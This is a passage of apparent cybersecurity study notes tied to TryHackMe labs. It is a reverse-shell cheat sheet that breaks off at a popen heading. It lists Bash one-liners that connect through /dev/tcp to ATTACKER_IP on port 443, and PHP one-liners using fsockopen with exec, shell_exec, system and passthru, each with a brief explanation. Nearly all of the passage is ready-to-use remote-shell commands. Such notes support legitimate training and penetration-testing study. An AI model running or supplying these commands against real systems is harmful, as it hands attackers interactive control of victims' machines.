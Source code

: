 Normal Bash Reverse Shell Terminal

target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1

This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP (ATTACKER_IP) on port 443. The >& operator combines both standard output and standard error.

Bash Read Line Reverse Shell Terminal

target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done

This reverse shell creates a new file descriptor (5 in this case) and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.

Bash With File Descriptor 196 Reverse Shell Terminal

target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196

This reverse shell uses a file descriptor (196 in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.

Bash With File Descriptor 5 Reverse Shell Terminal

target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5

Similar to the first example, this command opens a shell (bash -i), but it uses file descriptor 5 for input and output, enabling an interactive session over the TCP connection.

#### PHP

[](https://github.com/johannranudd/cyber_security_notes/blob/main/Shells.md#php)

PHP Reverse Shell Using the exec Function Terminal

target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'

This reverse shell creates a socket connection to the attacker's IP on port 443 and uses the exec function to execute a shell, redirecting standard input and output.

PHP Reverse Shell Using the shell_exec Function Terminal

target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'

Similar to the previous command, but uses the shell_exec function.

PHP Reverse Shell Using the system Function Terminal

target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'

This reverse shell employs the system function, which executes the command and outputs the result to the browser.

PHP Reverse Shell Using the passthru Function Terminal

target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'

The passthru function executes a command and sends raw output back to the browser. This is useful when working with binary data.

PHP Reverse Shell Using the popen Function Terminal
